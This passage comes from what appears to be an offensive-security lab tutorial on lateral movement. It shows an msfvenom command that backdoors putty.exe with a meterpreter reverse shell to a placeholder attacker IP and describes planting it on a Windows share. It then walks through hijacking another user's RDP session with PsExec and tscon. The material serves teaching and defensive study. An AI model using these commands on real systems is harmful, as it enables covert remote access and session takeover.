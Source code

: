 ```
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe
```

The resulting puttyX.exe will execute a reverse_tcp meterpreter payload without the user noticing it. Once the file has been generated, we can replace the executable on the windows share and wait for any connections using the exploit/multi/handler module from Metasploit.

### <font color="#FFA500">RDP hijacking</font>

When an administrator uses Remote Desktop to connect to a machine and closes the RDP client instead of logging off, his session will remain open on the server indefinitely. If you have SYSTEM privileges on Windows Server 2016 and earlier, you can take over any existing RDP session without requiring a password.

If we have administrator-level access, we can get SYSTEM by any method of our preference. For now, we will be using psexec to do so. First, let's run a cmd.exe as administrator:

From there, run `PsExec64.exe` (available at `C:\tools\`):

```
PsExec64.exe -s cmd.exe
```

To list the existing sessions on a server, you can use the following command:

```
C:\> query user
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>administrator         rdp-tcp#6           2  Active          .  4/1/2022 4:09 AM
 luke                                    3  Disc            .  4/6/2022 6:51 AM
```

According to the command output above, if we were currently connected via RDP using the administrator user, our SESSIONNAME would be `rdp-tcp#6`. We can also see that a user named luke has left a session open with id `3`. Any session with a Disc state has been left open by the user and isn't being used at the moment. While you can take over active sessions as well, the legitimate user will be forced out of his session when you do, which could be noticed by them.

To connect to a session, we will use tscon.exe and specify the session ID we will be taking over, as well as our current SESSIONNAME. Following the previous example, to takeover luke's session if we were connected as the administrator user, we'd use the following command:

```
tscon 3 /dest:rdp-tcp#6
```

In simple terms, the command states that the graphical session `3` owned by luke, should be connected with the RDP session `rdp-tcp#6`, owned by the administrator user.

As a result, we'll resume luke's RDP session and connect to it immediately.

Note: Windows Server 2019 won't allow you to connect to another user's session without knowing its password.

### <font color="#FFA500">Let's Get to Work!</font>
